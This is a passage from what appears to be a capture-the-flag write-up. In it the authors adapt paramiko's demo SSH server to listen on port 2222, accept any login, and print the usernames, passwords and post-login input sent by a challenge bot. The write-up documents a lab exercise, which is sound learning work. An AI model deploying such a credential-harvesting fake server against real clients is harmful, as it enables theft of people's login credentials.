 Great, he's using the 2222 port. Since he mentions the "ssh port" and he's requesting a file, we immediately thought of SFTP. After considering some options, we decided using [`paramiko`](https://www.paramiko.org/), a cool Python implementation of the SSH protocol. Luckily, `paramiko` offers some demos which we can modify to suit or needs instead of writing something from scratch. The [`demo_server.py`](https://github.com/paramiko/paramiko/blob/master/demos/demo_server.py) script seemed like a good starting point.

## Playing with paramiko

I still had in mind that the file requested by Bob needed to be crafted to exploit his job, but at this point I thought that maybe the whole thing was easier, and the flag could be the credentials sent by Bob to authenticate in the SSH server. So we modified the `demo_server` to:

- Listen on port 2222

~~~python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(("", 2222))
~~~

- Print out the provided username and password (if this is the method used to authenticate) and always authenticate correctly regardless of credentials

~~~python
def check_auth_password(self, username, password):
    print(username,password)
    return paramiko.AUTH_SUCCESSFUL
~~~

- Print out whatever the client sends to the server after authentication (with )

~~~python
"""
server.event.wait(10)
if not server.event.is_set():
    print("*** Client never asked for a shell.")
    sys.exit(1)
"""

# ...

f = chan.makefile("rU")
username = f.readline().strip("\r\n")
print(username)
~~~

Also, some dependencies need to be installed for this script to work properly (even though we probably won't be using `gssapi`):

~~~
$ sudo apt-get install python-pip libkrb5-dev
$ pip3 install --user gssapi
~~~

OK, now we are set to go. Let's try to launch this server and give our IP to Bob again:
